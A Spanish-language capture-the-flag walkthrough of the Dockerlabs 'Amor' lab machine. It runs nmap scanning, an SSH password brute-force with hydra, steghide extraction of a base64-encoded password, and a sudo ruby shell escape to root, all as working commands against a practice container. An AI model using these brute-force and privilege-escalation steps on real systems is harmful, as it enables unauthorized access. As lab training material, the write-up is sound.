 # Máquina Amor

Dificultad -> Easy

Enlace a la máquina -> [Dockerlabs](https://dockerlabs.es/)

Creador -> [romabri](https://github.com/romabri/WriteUps/commits?author=romabri)

---

## Reconocimiento



Comenzamos realizando un escaneo general con **nmap** sobre la IP de la máquina víctima para ver que puertos tiene abiertos.
```shell
❯ ping -c 1 172.17.0.2 -R
PING 172.17.0.2 (172.17.0.2) 56(124) bytes of data.
64 bytes from 172.17.0.2: icmp_seq=1 ttl=64 time=0.074 ms
RR: 	172.17.0.1
	172.17.0.2
	172.17.0.2
	172.17.0.1


--- 172.17.0.2 ping statistics ---
1 packets transmitted, 1 received, 0% packet loss, time 0ms
rtt min/avg/max/mdev = 0.074/0.074/0.074/0.000 ms
```

Ya con esto podemos observar que el ttl=64 corresponde a una maquina Linux 

Lanzamos un conjunto de scripts predeterminado con **nmap** para que nos reporte más información relacionada a los puertos descubiertos en el anterior escaneo.
```shell
❯ nmap -sCV -p- --open --min-rate 5000 -n 172.17.0.2
Starting Nmap 7.94SVN ( https://nmap.org ) at 2024-11-24 19:09 -03
Nmap scan report for 172.17.0.2
Host is up (0.0000090s latency).
Not shown: 65533 closed tcp ports (reset)
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 9.6p1 Ubuntu 3ubuntu13 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   256 7e:72:b6:8b:5f:7c:23:64:dc:15:21:32:5f:ce:40:0a (ECDSA)
|_  256 05:8a:a7:27:0f:88:b9:70:84:ec:6d:33:dc:ce:09:6f (ED25519)
80/tcp open  http    Apache httpd 2.4.58 ((Ubuntu))
|_http-title: SecurSEC S.L
|_http-server-header: Apache/2.4.58 (Ubuntu)
MAC Address: 02:42:AC:11:00:02 (Unknown)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```
También pueden utilizar el -vvv para ver en tiempo real la información durante el escaneo ,
Podemos observar que tiene el puerto 22 abierto es decir podemos acceder con credenciales SSH además del puerto 80, por lo tanto eso nos hace sospechar que debe tener una pagina levantada. 

Accedemos a la web para inspeccionarla, donde encontramos información importante como un par de usuarios, **carlota** y **juan**. Y que hay usuarios en el sistema con contraseñas débiles.

---

## Explotación


Aplicamos fuerza bruta con **hydra** sobre los usuarios:
```shell
❯ hydra -l carlota -P /usr/share/wordlists/rockyou.txt ssh://172.17.0.2 -t 10 -I
[DATA] attacking ssh://172.17.0.2:22/
[22][ssh] host: 172.17.0.2   login: carlota   password: babygirl
1 of 1 target successfully completed, 1 valid password found
Hydra (https://github.com/vanhauser-thc/thc-hydra) finished at 2024-11-24 11:52:37
```

Encontramos las credenciales de carlota -> **carlota:babygirl** Accedemos por ssh:

Estamos dentro !

---

## Escalada de privilegios


En el directorio **/home/Desktop/fotos/vacaciones** de Carlota encontramos una imagen.

Nos la descargaremos para verla. Podemos usar **scp**:
```shell
❯ scp carlota@172.17.0.2:/home/carlota/Desktop/fotos/vacaciones/imagen.jpg .
```

Veremos si tiene algo oculto con la herramienta **steghide**:
```shell
steghide --extract -sf imagen.jpg
Anotar salvoconducto: 
anot� los datos extra�dos e/"secret.txt".
```
Obtenemos un **secret.txt** con la siguiente información -> **ZXNsYWNhc2FkZXBpbnlwb24=**

utilizamos  **base64** así que lo decodificamos:
```shell
base64 -d secret.txt
eslacasadepinypon#  
```

Usaremos esta información como contraseña para intentar migrar a otro usuario o convertirnos en **root**:

```shell
su oscar
```

Conseguimos migrar al usuario **oscar**. Ejecutamos **sudo -l** para ver si podemos ejecutar algo como otro usuario o como **root**:

```shell
sudo -l
------------------------------------------------
User oscar may run the following commands on 6ba86e9dc48a:
    (ALL) NOPASSWD: /usr/bin/ruby
```

Podemos ejecutar **ruby** como el usuario **root**, si no sabemos como abusar de esto, siempre podemos recurrir a [GTFOBins](https://gtfobins.github.io/)

```shell
sudo /usr/bin/ruby -e 'exec "/bin/bash"'
```

```shell
whoami
----------------
root
```

Hemos alcanzado el nivel de privilegios máximo en la máquina.

```shell
cat /root/Desktop/THX.txt
-------------------------------
Gracias a toda la comunidad de Dockerlabs y a Mario por toda la ayuda proporcionada para poder hacer la máquina.
```
